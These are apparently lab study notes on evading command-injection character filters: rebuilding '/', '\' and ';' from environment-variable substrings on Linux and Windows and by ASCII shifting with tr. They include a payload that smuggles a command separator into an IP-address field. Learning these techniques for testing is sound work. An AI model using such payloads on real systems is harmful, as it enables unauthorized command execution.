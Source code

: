 ### Overview

- Slash (`/`, `\`) and semicolon (`;`) are often blacklisted.
- Several techniques exist to **reconstruct characters** using environment variables and **character shifting**.
- Applicable on both **Linux** and **Windows** systems.
---

## Linux Techniques

### 1. Environment Variables Substring

#### Example: Reconstruct Slash `/`
```bash
echo ${PATH:0:1}   # Extracts `/` from PATH
```

### Example: Reconstruct Semicolon `;`
```bash
echo ${LS_COLORS:10:1}
```
Use `printenv` to explore usable environment variables. Omit `echo` in payloads—use variable directly.

---
### 2. Combined Payload Example
```bash
127.0.0.1${LS_COLORS:10:1}${IFS}
```
- `;` (from LS_COLORS)
- `${IFS}` replaces space

---

## Windows Techniques

### 1. CMD Variable Substring

#### Example: Reconstruct Backslash `\`
```cmd
echo %HOMEPATH:~6,-11%
```
- `%HOMEPATH%` → `\Users\htb-student`
- Extracts `\`

### 2. PowerShell Variable Indexing
```powershell
$env:HOMEPATH[0]     # Returns `\`
$env:PROGRAMFILES[10]  # Can extract any character by index
```
Use `Get-ChildItem Env:` to list all env vars for potential use.

---

## Character Shifting Technique (Linux)

### Purpose

- Reconstruct any character using ASCII manipulation.

### Example: Reconstruct Backslash `\` (ASCII 92)
```bash
echo $(tr '!-}' '"-~'<<<[)   # `[` is ASCII 91
```

### Exercise: Reconstruct Semicolon `;` (ASCII 59)
```bash
echo $(tr '!-}' '"-~'<<<:)   # `:` is ASCII 58
```
Use `man ascii` or `printf "%d\n" "'<char>"` to check ASCII values.